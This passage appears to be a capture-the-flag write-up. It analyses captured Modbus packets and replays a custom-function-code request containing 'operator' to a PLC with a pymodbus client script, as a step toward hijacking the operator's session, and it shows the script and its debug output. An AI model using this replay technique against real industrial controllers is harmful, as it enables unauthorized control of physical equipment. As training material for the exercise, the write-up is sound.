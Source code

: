 Now we must find patterns in the packets. Based on the Notes, we already know what three of the requests should be. The first information we have is the  Reserve PLC which must be where the operator obtains his session we are tasked with hijacking. Switching view back to hexdump we can see that the packet `660010086f70657261746f72` contains the word operator in it.

![hexdump](assets/hexdump.png)

We will use the provided `client.py` to send the same command back to the PLC and then compare the responses.

```python
CUSTOM_FUNCTION_CODE = 0x66 # CHANGE FUNCTION CODE]

# <SNIP>

def string_to_hex_list(hex_string):
    return [int(hex_string[i:i+2], 16) for i in range(0, len(hex_string), 2)]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    packet = "0010086f70657261746f72"
    packet_list = string_to_hex_list(packet)
    DATA = packet_list
    data = send_packet(client, DATA)

    hex_data = [hex(x) for x in data]

    formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
    print(hex_data, formatted_hex_string)
```

Now we can run the code and observe the output:
````
python3.9 client.py

DEBUG:pymodbus.logging:Connection to Modbus server established. Socket ('192.168.178.23', 58834)
Connected to the server
DEBUG:pymodbus.logging:Current transaction state - IDLE
DEBUG:pymodbus.logging:Running transaction 1
DEBUG:pymodbus.logging:SEND: 0x0 0x1 0x0 0x0 0x0 0xd 0x0 0x66 0x0 0x10 0x8 0x6f 0x70 0x65 0x72 0x61 0x74 0x6f 0x72
DEBUG:pymodbus.logging:New Transaction state "SENDING"
DEBUG:pymodbus.logging:Changing transaction state from "SENDING" to "WAITING FOR REPLY"
DEBUG:pymodbus.logging:Changing transaction state from "WAITING FOR REPLY" to "PROCESSING REPLY"
DEBUG:pymodbus.logging:RECV: 0x0 0x1 0x0 0x0 0x0 0x7 0x0 0x66 0x0 0x10 0xf0 0xe0 0x6
DEBUG:pymodbus.logging:Processing: 0x0 0x1 0x0 0x0 0x0 0x7 0x0 0x66 0x0 0x10 0xf0 0xe0 0x6
````